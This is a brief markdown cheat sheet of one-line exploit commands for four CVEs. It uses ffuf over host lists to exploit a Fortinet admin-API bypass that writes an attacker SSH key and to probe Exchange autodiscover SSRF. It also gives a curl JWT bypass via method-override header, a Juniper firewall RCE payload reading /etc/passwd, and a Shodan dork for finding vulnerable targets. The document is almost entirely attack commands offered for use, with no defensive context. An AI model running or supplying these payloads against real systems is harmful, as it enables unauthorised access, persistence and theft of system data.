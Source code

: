
 ### CVE-2022-40684
##### @h4x0r_dz
```
 ffuf -w "host_list.txt:URL" -u "https://URL/api/v2/cmdb/system/admin/admin" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r
 ```

### CVE-2022-41040
##### @unknown
```
 ffuf -w "urllist.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
### bypasses JWT checking by using the X-HTTP-Method-Override request header!
##### CVE-2023-30845
```
 curl --request POST \
     --header "X-HTTP-Method-Override: PUT" \
     --header "Content-Type: application/json" \
     --data '{"username":"xyz"}' \
     https://my-endpoint.com/api
```
### CVE-2023-36845 - Juniper Firewalls RCE
##### Shodan Dork: title:"Juniper" http.favicon.hash:2141724739
```
curl <TARGET> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'
```
